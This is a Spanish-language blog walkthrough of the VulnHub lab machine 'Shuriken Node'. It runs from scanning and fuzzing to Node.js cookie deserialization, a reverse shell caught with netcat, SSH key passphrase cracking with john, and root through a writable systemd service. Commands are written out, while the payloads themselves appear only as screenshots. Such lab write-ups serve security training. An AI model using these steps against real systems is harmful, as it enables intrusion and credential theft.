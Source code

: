 ```yaml
---
layout: post
title: "Shuriken Node"
date: 2024-05-31 11:00:23
category: sample
vm: vulnhub
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Shuriken Node </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/shuriken-node,628/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/ShurikenNode/host.png){:.margin}

**1\.** Escaneo de dispositivos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/ShurikenNode/arp.png){:.margin}

**2\.** Reviso los puertos abiertos y servicios disponibles en los puertos.

`sudo nmap -p- --open -sCV -T5 --min-rate=5000 192.168.1.9 -Pn -n`

![img](/notas/public/img/vulnhub/ShurikenNode/nmap.png){:.margin}

**3\.** Revisando la Web que corre por el 8080.

`http://192.168.1.127:8080`

![img](/notas/public/img/vulnhub/ShurikenNode/8080.png){:.margin}

**4\.** haciendo fuzzing encuentro directorios, pero no nos permite visualizarlos.

`gobuster dir -u http://192.168.1.9:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js -q`

![img](/notas/public/img/vulnhub/ShurikenNode/gobuster.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/dirfail.png){:.margin}

**5\.** Copio mi cookie de session para ver su valor.

![img](/notas/public/img/vulnhub/ShurikenNode/inspect.png){:.margin}

**6\.** Voy a [Cyberchef](https://gchq.github.io/CyberChef/) para tratar la data.

![img](/notas/public/img/vulnhub/ShurikenNode/cyberchef.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/cyberchef2.png){:.margin}

**7\.** Reemplazo la cookie y actualizo la pagina, me convierto en administrador.

![img](/notas/public/img/vulnhub/ShurikenNode/cookiereplace.png){:.margin}

_\- Veo que lo unico que cambia es el usuario asi que mucho no se puede hacer._

**8\.** Ingreso data al azar en la cookie y al recargarla veo que deserializa.

![img](/notas/public/img/vulnhub/ShurikenNode/cookieerror.png){:.margin}

**9\.** La forma de explotar lo tenemos a detalle en esta pagina [opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

_9.1- Instalo el modulo necesario; la esta funcion nos devuelve una cadena serializada, esto lo guardo en un archivo_

`npm install node-serialize`

`node serialize.js`

![img](/notas/public/img/vulnhub/ShurikenNode/serialize.png){:.margin}

_9.1- Descargo esta herramienta [nodejsshell](https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py) para generar una reverse shell codificado_

`wget https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py -q`

_9.2- Al ejecutar me da errores, tenemos que modificar un poco el codigo_

`python3 nodejsshell.py 192.168.1.9 443`

_\- En todos los print le agregamos parentesis, 'print ("ejemplo")'_

![img](/notas/public/img/vulnhub/ShurikenNode/nodejsshellerror.png){:.margin}

_\- Copiamos el payload generado_

![img](/notas/public/img/vulnhub/ShurikenNode/payload.png){:.margin}

_\- Modificamos la cadena serializada para agregar nuestro payload y lo pasamos a base64_

![img](/notas/public/img/vulnhub/ShurikenNode/serializeok.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/base64.png){:.margin}

**10\.** Me pongo en escucha y pego el base64 en la cookie ; si recargamos la pagina obtendremos el acceso.

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnhub/ShurikenNode/newcookie.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/nc.png){:.margin}

**11\.** Tratamiento de la tty.

`script /dev/null -c bash`

   `ctrl+z`

`stty raw -echo;fg`

   `reset xterm`

`export TERM=xterm SHELL=/bin/bash`

![img](/notas/public/img/vulnhub/ShurikenNode/tty.png){:.margin}

**12\.** Tenemos 3 usuarios disponibles en el sistema.

`cat /etc/passwd | grep bash`

![img](/notas/public/img/vulnhub/ShurikenNode/catpasswd.png){:.margin}

**13\.** Encontre un backup de ssh que contiene una clave privada encriptada.

`cd /var/backups`

`ls -l`

`cp ssh-backup.zip /tmp`

`cd /tmp`

`unzip ssh-backup.zip`

`cat id_rsa`

![img](/notas/public/img/vulnhub/ShurikenNode/backupls.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/idrsaencrypted.png){:.margin}

**14\.** Rompiendo la id_rsa encriptada.

_14.1- Guardo en un fichero el contenido del idrsa_

`nano key`

![img](/notas/public/img/vulnhub/ShurikenNode/nano.png){:.margin}

_14.1- Generamos el passphrase con john_

`ssh2john key> pass`

`john --wordlist=/usr/share/wordlists/rockyou.txt pass`

![img](/notas/public/img/vulnhub/ShurikenNode/john.png){:.margin}

**15\.** Nos conectamos por ssh con el usuario serv-adm.

`ssh -id id_rsa serv-adm@192.168.1.9`

![img](/notas/public/img/vulnhub/ShurikenNode/sshserv.png){:.margin}

**16\.** Puedo ejecutar el binario systemctl como root ,ademas puedo controlar unos servicios.

`sudo -l`

`locate shuriken-auto.timer`

`cat /etc/systemd/system/shuriken-auto.timer`

![img](/notas/public/img/vulnhub/ShurikenNode/timer1.png){:.margin}

_\- Reviso este otro servicio, veo que ejecuta un binario_

`locate shuriken-job.service`

`cat /etc/systemd/sytem/shuriken-job.service`

![img](/notas/public/img/vulnhub/ShurikenNode/timer2.png){:.margin}

**17\.** Escalada de privilegios.

`nano `

`nano /etc/systemd/system/shuriken-job.service`

`sudo /bin/systemctl stop shuriken-auto.timer`

`sudo /bin/systemctl start shuriken-auto.timer`

![img](/notas/public/img/vulnhub/ShurikenNode/reverse.png){:.margin}
![img](/notas/public/img/vulnhub/ShurikenNode/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>